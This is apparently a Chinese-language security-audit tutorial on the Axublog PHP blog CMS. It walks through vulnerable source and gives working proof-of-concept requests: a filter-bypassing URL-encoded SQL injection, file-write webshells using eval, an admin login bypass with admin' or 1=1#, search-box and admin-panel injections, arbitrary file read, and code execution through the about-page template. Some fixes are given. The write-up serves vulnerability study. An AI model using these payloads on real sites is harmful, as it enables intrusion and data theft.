

Axublog代码审计学习
前台数字型sql注入
漏洞位置：axublog/hit.php
漏洞分析：
hit.php漏洞关键代码：
<?php
header("Content-type:text/html; charset=utf-8");
require("cmsconfig.php");
require("class/c_other.php");
sqlguolv();
$g=$_GET['g'];
if ($g=='arthit'){
$id=$_GET['id'];
if($id!=''){
$tab=$tabhead."arts";
mysql_select_db($tab);
$sql=mysql_query("UPDATE ".$tab." SET hit=hit+1 where id=".$id); //直接将$_GET['id']提取的 id带入sql查询，没有经过 有效过滤
$sql = mysql_query("select * from ".$tab." where id=".$id);
$row=mysql_fetch_array($sql);
$str=$row['hit'];
echo 'document.write('.$str.');';
}
}
我们尝试直接传入payload尝试：
/hit/php?g=archit&id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12发现被拦截。
我们发现在get传参之前，有一个过滤函数。
if(sqlguolv()==1){die('禁止输入特殊符号和非法访问！');}我们找到这个函数：位于axublog\class\c_other.php:690行
Function sqlguolv() {
@header("Content-type:text/html; charset=utf-8");
$a='/%3C|\<|%27|%22|\>|%3E|\||\\\|\;|select|insert|\"|\'|\\*|\*|union|into/i';
if(preg_match($a,$_SERVER['QUERY_STRING'])==11 or preg_match($a,file_get_contents("php://input"))==11 ){return "1";}
}_SERVER[‘QUERY_STRING’]获取查询语句，一般是问号后面的字符串，然后使用preg_match()函数来匹配正则表达式。但是有一个问题：
使用$_SERVER[‘QUERY_STRING’]不会对传入的字符进行URL解码操作，
而$_GET时候会进行一次URL解码。所以我们可以使用url编码的方式绕过检测。
我们可以分别对字母u和s进行url编码为：%75 %73，得到paylaod:
?g=arthit&id=-1%20%75nion%20%73elect%201,2,3,4,5,6,database(),8,9,10,11,12漏洞修复：
1.加强sqlguolv()的功能，针对 $_SERVER['QUERY_STRING']不对URL进行解码的问题进行修复，即增加解码的步骤并完善正则匹配的关键字。
$_SERVER['QUERY_STRING']=urldecode($_SERVER['QUERY_STRING']);2.因为此次的sql注入为数字型，所以可以直接将id进行强制转换为int型在进行查询。
$id=intval($id);3.使用预编译技术和数据库进行交互。
任意文件上传漏洞
漏洞位置：
/ad/theme.php 185~198行
漏洞分析：
分析漏洞代码：
<?php
@$g=$_GET["g"];
?>
<script src="jspost.js"></script>
</head>
<body>
<?php
switch ($g)
{
default:index();break;
case "index":index();break;
case "savechoose":savechoose();break;
case "edit":edit();break;
case "edit2":edit2();break;
case "edit2save":edit2save();break;
}当我们传入?g=edit2save即可调用edit2save()的函数。
我们继续观察该函数功能：
<?php
function edit2save(){
global $themepath;
?>
<div class="yj_green" id=full>
<b class="b1"></b><b class="b2"></b><b class="b3"></b><b class="b4"></b>
<div class="boxcontent">
<h2><a href="?">主题管理</a> > <a href="javascript:history.go(-2)">编辑主题</a> > 编辑文件 > <a href="javascript:history.back()">返回</a></h2>
</div>
<div class="t1"><div class="t2">
<?php
$path=$_REQUEST['path'];
$content=stripslashes($_REQUEST['content']);
?>
<p>编辑文件：<?=$path?></p>
<?php
if($path==''){echo'文件路径错误！';exit;}
if(file_put_contents ($path, $content)){echo"保存文件成功！";}
else{echo"保存文件失败！";}
?> 在这个方法中，$path和$content分别表示路径和文件内容，用户可控，最后把这两个参数传入file_put_contents中进行保存操作。
我们可以构造写入webshell的payload:
?g=edit2save&path=../shell.php&content=<?php%20@eval($_POST[cmd]);?>成功拿到webshell.
修复方案：
我们根据上下函数可知，此处调用该函数的目的是为了about页面：
所以我们可以对path进行白名单校验，或者直接将路径写死：
if($path!='../theme/default/about.mb'){
echo 'about.mb地址不正确';
exit;
}后台生成about页面getshell
漏洞位置：
/ad/html.php 773行~787行
漏洞分析：
ob_start();
include($mb);
$html = ob_get_contents ();
ob_clean();
$html=mbreplace($html);
file_put_contents ($cache, $html);
echo '生成about.html成功: <a target=blank href="'.$cache.'">访问</a>';
?>
</div></div>
<b class="b4b"></b><b class="b3b"></b><b class="b2b"></b><b class="b1b"></b>
</div>
<?php
}
?>这里使用include函数包含about.mb将其中php的语句执行后再将一些标签替换成变量的值，最后把处理的结果放入$cache变量中再将其写入aout.html页面。
我们在about.mb尾部添加如下代码：
<?php
file_put_contents('../shell.php','<?php @eval($_GET["a"]); ?>');
?>然后使用菜刀连接即可getshell。
后台登录处的sql注入漏洞
漏洞分析：
首先分析其login.php页面，发现用户名和密码输入后是使用的jsloginpost函数进行处理的。jsloginpost函数是在c_login.php文件中定义的。
打开c_login.php页面，分析jsloginpost代码，发现jsloginpost并没有对user和psw进行过滤处理，而是直接带入了sql语句进行查询，所以此处造成了sql注入漏洞。

漏洞利用：
我们只需要在后台管理员登录处使用万能密码即可成功登录，例如
user:admin' or 1=1#
psw: 随意
或者
user: admin' or 1#
psw: 随意
前台反射型xss漏洞
漏洞分析：
此漏洞是搜索功能处的xss漏洞，由于在search.php中对word参数没有过滤而产生的。首先分析search.php文件，在文件中首先获取搜索数据给word参数，然后进行判断，如果没有传参数，则直接调用index()函数，如果传递了参数则调用so()函数。

进入so()函数继续分析：在so()函数中也没有对word参数进行任何过滤处理，而是包含了一个模板文件search.mb，继续跟进模板文件：


模板文件search.mb分析：发现在模板文件中也是直接对word参数直接输出，而没有任何过滤，所以此处就造成了xss漏洞

漏洞利用：
前台sql注入漏洞
在第二个分析xss漏洞的过程中发现，在其模板文件search.mb中还调用了searchlist()函数，继续跟进searchlist()函数（searchlist函数在search.php文件中）
发现在searchlist()函数中同样没有对word参数进行过滤，而直接带入了sql语句进行查询，所以此处就造成了sql注入漏洞。
漏洞利用：
执行如下poc时候返回正确结果：
http://192.168.110.152/axublog/search.php?word=广%' or 1=1--+
执行如下poc时候无结果返回：
http://192.168.110.152/axublog/search.php?word=广%' or 1=2--+后台任意文件写入漏洞
注明：这个后台文件上传漏洞不需要登录后台即可直接getshell
漏洞点：admin/theme.php
edit2save()函数进行了文件的写入操作，将REQUEST请求的的path参数和content参数分别作为作为报存的路径和内容传入file_put_contents中进行保存操作。
继续寻找edit2save()函数调用点：发现当g=edit2save时调用该函数。
漏洞利用：
请求：
http://192.168.110.152/axublog/admin/theme.php?g=edit2save
post:
path=./shell.php&content=<?php phpinfo();?>后台多个sql注入漏洞
漏洞分析
漏洞点：admin/admin.php
定位edit()函数，发现id参数没有经过过滤而直接带入sql语句进行查询了。
但是这里在获取id参数之前调用了chkoutpost()函数进行验证。跟进chkoutpost()函数。class/c_other.php
chkoutpost()函数仅仅验证了refer是否为空的情况，所以我们在利用这个sql注入漏洞是时候给refer随便赋个值即可。
查看edit函数在哪里被调用了：发现当g=edit时候调用edit函数。
漏洞利用：
poc:
http://192.168.110.152/axublog/admin/admin.php?g=edit&id=1 union select 1,version(),3,4--+
Referer: 任意填写
6，既然这个cms的sql注入都没有进行防御，那么肯定还存在n个sql注入漏洞，此处就不一一说明了。
任意文件读取漏洞
漏洞点：admin/app.php
首先定位到edit2()函数，在edit2函数中通过调用file_get_contents函数获取变量path文件中的内容，然而变量path文件中的内容，然而变量path的值是通过request的方式从path参数获取的，并且对变量$path没有任何过滤而直接带入到file_get_contents函数进行获取文件内容，所以此处就造成了任意文件读取漏洞。
跟进edit2()函数，寻找调用方法：当g=edit2的时候调用edit2函数。
漏洞利用：
poc:
http://192.168.110.152/axublog/admin/app.php?g=edit2&path=./app.php代码执行漏洞
漏洞点：admin/html.php
漏洞分析：在生成about页面的时候调用了ob_get_contents函数执行about.mb里面的php代码，并且没有进行任何过滤，所以我们可以通过向about.md文件中写入php代码，从而使其被执行。然而在后台管理页面中正好有编辑about页功能。
漏洞利用：
首先编辑about页，然后向其中写入想要执行的php代码即可，此处我使用file_put_contents函数生成一个文件名为shell2.php的探针文件。
保存编辑后选择生成about：
然后我们的代码就被成功的执行了，访问shell2.php: